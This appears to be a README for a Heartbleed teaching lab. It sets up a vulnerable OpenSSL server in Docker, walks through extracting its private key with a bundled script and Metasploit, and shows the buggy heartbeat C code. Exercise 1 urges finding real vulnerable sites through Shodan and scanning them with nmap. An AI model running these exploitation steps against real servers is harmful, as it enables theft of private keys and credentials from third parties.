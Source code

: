 # Heartbleed

## Requirements and instalation

* Docker
* Metasploit
* Python 2
```shell
sudo apt-get update &&
sudo apt-get install -y python2-dev docker.io metasploit-framework curl
```
* Python 2 packages
```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output /tmp/get-pip.py &&
sudo python2 /tmp/get-pip.py &&
pip install --upgrade setuptools &&
pip install gmpy pyasn1
```
## Docker Setup

```shell
docker pull docker.io/andrewmichaelsmith/docker-heartbleed
```
## Clone Repository

```shell
git clone https://github.com/okrutnik420/heartbleed.git &&
cd heartbleed &&
chmod 755 *
```

## Run the container

On a terminal window, run the command:

```shell
sudo docker run -it -p 127.0.0.1:443:443 andrewmichaelsmith/docker-heartbleed bash
```

This command will execute bash in conatiner and map host adress 127.0.0.1:443 to local conatiner adress on port 443

Type exit to exit container


## Run the server
inside contrainer run"
```shell
apache2ctl -D FOREGROUND
```
You can access server via https://127.0.0.1
(unfortunetly this is default website for old version of apache2)


## Excercise 1: Find potential victions and get to know sever

#### Finding vulnerable sites
* use https://safeweb.norton.com/heartbleed to check if your favourite site is vulnerable.
* try to find site which is vulnerable to heartbleed (for example you can use https://shodan.io).

#### Using nmap check if server and found site are vulnerable
```shell
sudo nmap -p 443 --script ssl-heartbleed <IP>
```

#### If you wish to run another instance of bash inside container do:
```shell
sudo docker ps -a 
sudo docker exec -it <id> /bin/bash
```
#### View certificate and private key

You can inspect Dockerfile to check how server was set up

#### Check openssl version

## Excercise 2 Exploit using script

Before exploiting, you must stimulate the server with potentially sensitive data
that can be harvested later by the exploit. The `stimulate_server.py` script
does that, sending random credentials to the server via HTTP POST requests. The
following is its usage and options:

```shell
./stimulate_server.py [-a server_address] [-t sleep]
```

To populate server memory with keys run:
```shell
watch 'cat /etc/apache2/ssl/apache.crt ; cat /etc/apache2/ssl/apache.key'

```

This repo includes heartbleed.py script (in python2)

```shell
./heartbleed.py -h
```

#### Using script try to extract some sensitive data
#### Set verbose option analize how script executes
#### Try to steal server private key and certificate


## Excersice 3 Exploit using metaspoit

#### Start the Metasploit console
```shell
sudo msfconsole
```

#### Search Heartbleed module by using built in search feature in Metasploit framework
```shell
search heartbleed
```

#### Load the heartbleed by module
```shell
use auxiliary/scanner/ssl/openssl_heartbleed
```

#### After loading the auxiliary module, extract the info page to reveal the options to set the target
```shell
show info
```

#### This is a list of all auxiliary actions that the scanner/ssl/openssl_heartbleed module can do:
```shell
show actions
```

#### Here is a complete list of advanced options supported by the scanner/ssl/openssl_heartbleed auxiliary module:
```shell
show advanced
```

#### To view full list of possible evasion options supported by the scanner/ssl/openssl_heartbleed auxiliary module in order to evade defenses:
```shell
show evasion
```

#### Explore available options and actions than:
 * Set RHOST 
 * Set Action
 * Run
#### Extract Certificate and Private Key using metaspolit

## Excercise 4 some code snippet 

#### Inscect heartbeat request/response packet

**Format of the Heartbeat request/response packet**

```c
struct {
    HeartbeatMessageType type;  // 1 byte: request or the response
    uint16 payload_length;      // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
```

The first field (1 byte) of the packet is the type information, and the second field (2 bytes) is the payload length, followed by the actual payload and paddings. The size of the payload should be the same as the value in the payload length field, but in the attack scenario, payload length can be set to a different value. The following code snippet shows how the server copies the data from the request packet to the response packet.

#### Find faulty line in code bellow

**Process the Heartbeat request packet and generate the response packet**

```c
/* Allocate memory for the response, size is 1 byte
 * message type, plus 2 bytes payload length, plus
 * payload, plus padding
*/

unsigned int payload;
unsigned int padding = 16; /* Use minimum padding */

// Read from type field first
hbtype = *p++; /* After this instruction, the pointer
                * p will point to the payload_length field */

// Read from the payload_length field from the request packet
n2s(p, payload); /* Function n2s(p, payload) reads 16 bits
                  * from pointer p and store the value
                  * in the INT variable "payload". */

pl = p; // pl points to the beginning of the payload content

if (hbtype == TLS1_HB_REQUEST)
{
    unsigned char *buffer, *bp;
    int r;

    /* Allocate memory for the response, size is 1 byte
     * message type, plus 2 bytes payload length, plus
     * payload, plus padding
     */

    buffer = OPENSSL_malloc(1 + 2 + payload + padding);
    bp = buffer;

    // Enter response type, length and copy payload *bp++ = TLS1_HB_RESPONSE;
    s2n(payload, bp);

    // copy payload
    memcpy(bp, pl, payload);   /* pl is the pointer which
                                * points to the beginning
                                * of the payload content */
    bp += payload;

    // Random padding
    RAND_pseudo_bytes(bp, padding);

    // this function will copy the 3+payload+padding bytes
    // from the buffer and put them into the heartbeat response
    // packet to send back to the request client side.
    OPENSSL_free(buffer);
    r = ssl3_write_bytes(s, TLS1_RT_HEARTBEAT, buffer, 3 + payload + padding);
}
```

